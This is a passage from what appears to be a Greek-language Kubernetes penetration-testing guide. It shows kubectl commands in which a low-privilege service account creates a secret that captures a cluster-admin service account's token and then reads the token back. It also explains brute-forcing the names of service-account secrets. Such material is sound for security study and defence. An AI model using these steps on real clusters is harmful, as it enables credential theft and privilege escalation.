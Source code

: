 ```bash
<SNIP>
[/version]                             []               [get]

$ kubectl create token cluster-admin-sa --token=$SECRETS_MANAGER_TOKEN
error: failed to create token: serviceaccounts "cluster-admin-sa" is forbidden: User "system:serviceaccount:default:secrets-manager-sa" cannot create resource "serviceaccounts/token" in API group "" in the namespace "default"

$ kubectl get pods --token=$SECRETS_MANAGER_TOKEN --as=system:serviceaccount:default:secrets-manager-sa
Error from server (Forbidden): serviceaccounts "secrets-manager-sa" is forbidden: User "system:serviceaccount:default:secrets-manager-sa" cannot impersonate resource "serviceaccounts" in API group "" in the namespace "default"

$ kubectl apply -f ./secret-that-steals-another-sa-token.yaml --token=$SECRETS_MANAGER_TOKEN
secret/stolen-admin-sa-token created

$ kubectl get secret stolen-admin-sa-token --token=$SECRETS_MANAGER_TOKEN -o json
{
"apiVersion": "v1",
"data": {
"ca.crt": "LS0tLS1CRUdJTiBDRVJUSUZJQ0FU<SNIP>UlRJRklDQVRFLS0tLS0K",
"namespace": "ZGVmYXVsdA==",
"token": "ZXlKaGJHY2lPaUpTVXpJMU5pSXNJbXRwWk<SNIP>jYkowNWlCYjViMEJUSE1NcUNIY0h4QTg2aXc="
},
"kind": "Secret",
"metadata": {
"annotations": {
"kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Secret\",\"metadata\":{\"annotations\":{\"kubernetes.io/service-account.name\":\"cluster-admin-sa\"},\"name\":\"stolen-admin-sa-token\",\"namespace\":\"default\"},\"type\":\"kubernetes.io/service-account-token\"}\n",
"kubernetes.io/service-account.name": "cluster-admin-sa",
"kubernetes.io/service-account.uid": "faf97f14-1102-4cb9-9ee0-857a6695973f"
},
"creationTimestamp": "2025-01-11T13:02:27Z",
"name": "stolen-admin-sa-token",
"namespace": "default",
"resourceVersion": "1019116",
"uid": "680d119f-89d0-4fc6-8eef-1396600d7556"
},
"type": "kubernetes.io/service-account-token"
}
```
Σημειώστε ότι αν έχετε άδεια να δημιουργείτε και να διαβάζετε μυστικά σε ένα συγκεκριμένο namespace, ο λογαριασμός υπηρεσίας του θύματος πρέπει επίσης να βρίσκεται σε αυτό το ίδιο namespace.

### Ανάγνωση ενός μυστικού – βίαιη επίθεση σε αναγνωριστικά token

Ενώ ένας επιτιθέμενος που κατέχει ένα token με δικαιώματα ανάγνωσης απαιτεί το ακριβές όνομα του μυστικού για να το χρησιμοποιήσει, σε αντίθεση με το ευρύτερο προνόμιο _**καταγραφής μυστικών**_, υπάρχουν ακόμα ευπάθειες. Οι προεπιλεγμένοι λογαριασμοί υπηρεσίας στο σύστημα μπορούν να καταμετρηθούν, καθένας από τους οποίους σχετίζεται με ένα μυστικό. Αυτά τα μυστικά έχουν μια δομή ονόματος: ένα στατικό πρόθεμα ακολουθούμενο από έναν τυχαίο αλφαριθμητικό token πέντε χαρακτήρων (εξαιρουμένων ορισμένων χαρακτήρων) σύμφωνα με τον [κώδικα πηγής](https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#L83).
